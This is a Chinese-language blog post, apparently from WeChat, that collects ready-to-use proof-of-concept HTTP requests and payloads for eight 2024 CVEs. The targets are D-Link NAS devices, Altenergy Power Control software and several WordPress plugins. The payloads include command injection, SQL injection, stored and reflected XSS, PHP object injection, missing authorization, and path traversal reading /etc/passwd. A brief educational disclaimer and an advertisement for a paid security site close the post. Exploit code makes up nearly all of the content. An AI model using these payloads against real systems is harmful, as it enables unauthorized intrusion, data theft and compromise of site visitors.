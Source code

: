 #  2024年wordpress、d-link等相关的多个cve漏洞poc   
 棉花糖fans   2024-11-24 12:14  
  
##   
## ⚠️ 漏洞  
### ✅ CVE-2024-10914  
  
**在D-Link DNS-320、DNS-320LW、DNS-325和DNS-340L中发现的漏洞，版本直到20241028**  
```
GET /cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;id;%27 HTTP/1.1

```  
### ✅ CVE-2024-11305  
  
**在Altenergy Power Control Software中发现的关键漏洞，版本直到20241108**  
```
POST /index.php/display/status_zigbee HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close

date=2024-11-06%' UNION ALL SELECT 11,CHAR(113)CHAR(75,101,86,69,115,83,113,89,100,122,121,102,83,83,113,86,84,112,100,103,69,75,80,117,88,109,83,105,89,116,110,120,76,84,73,109,115,100,83,107)CHAR(113,118,98,98,113),11-- wPIB

```  
### ✅ CVE-2024-10793  
  
**WP Security Audit Log插件检测 一个允许注入恶意脚本的XSS漏洞。.**  
```
curl -X POST 'http://example.com/wp-admin/admin-ajax.php' \
     -d 'action=destroy-sessions&user_id=<script>alert("XSS found windz3r0day")</script>'

```  
### ✅ CVE-2024-11199  
  
**通过插件的rescue_progressbar短代码进行的存储跨站脚本攻击**  
```
[rescue_progressbar visibility='foo" onclick="alert(/XSS/)"']

```  
### ✅ CVE-2024-11381  
  
**通过插件的ch_registro短代码进行的存储跨站脚本攻击**  
```
[ch_registro note='"onmouseover="alert(/XSS/)"']

```  
### ✅ CVE-2024-43919  
  
**YARPP <= 5.30.10 - 缺少授权  
  
该漏洞允许未经授权访问以修改展示类型。.  
```
GET /wp-content/plugins/yet-another-related-posts-plugin/includes/yarpp_pro_set_display_types.php?ypsdt=false&types[]=post&types[]=page HTTP/1.1
Host: example.com

```  
### ✅ CVE-2024-52433  
  
**My Geo Posts Free <= 1.2 - 未经认证的PHP对象注入**  
```
GET / HTTP/2
Host: wp-dev.ddev.site
Cookie: mgpf_geo_coockie=TzoyMDoiUEhQX09iamVjdF9JbmplY3Rpb24iOjA6e30=

```  
### ✅ CVE-2024-9935  
  
**Elementor页面构建器的PDF生成插件 <= 1.7.5 - 未经认证的任意文件下载**  
```
GET /elementor-84/?rtw_generate_pdf=true&rtw_pdf_file=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Priority: u=0, i

```  
## ▶▶▶ 免责声明  
  
仅用于教育目的。在未获得明确许可的情况下对系统或网站使用这些漏洞是非法的。作者对任何使用这些信息所产生的后果不负责任。  
##  广告  
  
  
全网最强大的网络安全资源大全：[棉花糖会员站介绍(24年10月4日版本)](http://mp.weixin.qq.com/s?__biz=MzkyOTQzNjIwNw==&mid=2247489356&idx=1&sn=b748fb12a8220965758983ddc05baaad&chksm=c208d00cf57f591aaca9a8c2a8507f9ec6fa07457598007a61c93e425b5248bc5a4d0e8b6e70&scene=21#wechat_redirect)  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lic4LrsB27ntZqXOIfzTDcpXR1rrYALUMbiahn8ibv3KD3tZaNPwo9VpqicdkHwQ7RfXiaUkmzABwibVL5Hicia6zQ99Ww/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lic4LrsB27ntZqXOIfzTDcpXR1rrYALUMbtqkusQicwPaib5r171YAyMBSd9OTbJxvLcdszqH77K5G9j9uiaibuLib6w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lic4LrsB27ntZqXOIfzTDcpXR1rrYALUMeXmDyAEswoxDMPdicGKeYZ3pY7DxG6A4aOvLC2VRJqPdLV0VFdyTYNw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lic4LrsB27ntZqXOIfzTDcpXR1rrYALUM373ibicylzZDjBCAKKKMxXbzRSSBsyTgQQK9dOlgmJQna0O41RjvsQgQ/640?wx_fmt=png&from=appmsg "")  
  
**☟上下滑动查看更多**  
  
